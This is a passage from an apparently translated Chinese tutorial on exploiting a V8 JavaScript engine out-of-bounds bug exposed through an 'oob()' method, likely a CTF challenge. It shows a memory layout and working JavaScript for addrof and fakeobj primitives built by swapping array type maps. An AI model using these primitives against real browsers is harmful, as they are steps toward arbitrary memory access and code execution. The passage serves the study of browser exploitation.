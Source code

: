 # 5.3 在内存中准备对象

这对应于开发理念部分的第一步。我们需要一个对象数组和一个双数组。第二步我们还需要他们的类型字段的值。

```
var obj = {"a":1};
/* Define an object array. */
var obj_arr = [obj];
/* Define a double array. */
var double_arr = [1.1];
/* Get the object array's type field. */
var obj_arr_type = obj_arr.oob();
/* Get the double array's type field. */
var double_arr_type = double_arr.oob();
```

如果你读过关于 obejcts 结构的帖子。你会知道 obj_arr 在内存中是这样表示的:

```
+0x00: (FixedArray Begins) (Element Area Begins)
+0x08: (Length)
+0x10: (Pointer to {"a":1}) (First and also Last Element in the Element Area)
+0x18: (JSArray Begins) (Type of obj_arr)
+0x20: (...)
```

obj_arr.oob()读取其元素区域之外的下 8 个字节。所以它读取偏移量+0x18 处的值，这是 obj_arr 的类型值。这类似于 double_arr。

# 5.4 泄露地址和伪造对象

此部分对应于开发理念部分中的步骤 2。

```
function GetAddrOf(object) {
    /* Put the object into obj_arr. */
    obj_arr[0] = object;
    /* Overwrite obj_arr's type to double. */
    obj_arr.oob(double_arr_type);
    /* Get the object's address in double format. */
    let addr = obj_arr[0];
    /* Recover the type of obj_arr. */
    obj_arr.oob(obj_arr_type);
    return addr;
}
function FakeObjFrom(address) {
    double_arr[0] = address;
    /* Change the type of double_arr to object array. */
    double_arr.oob(obj_arr_type);
    /* Read the address in object pointer format. */
    let obj = double_arr[0];
    double_arr.oob(double_arr_type);
    return obj;
}
```
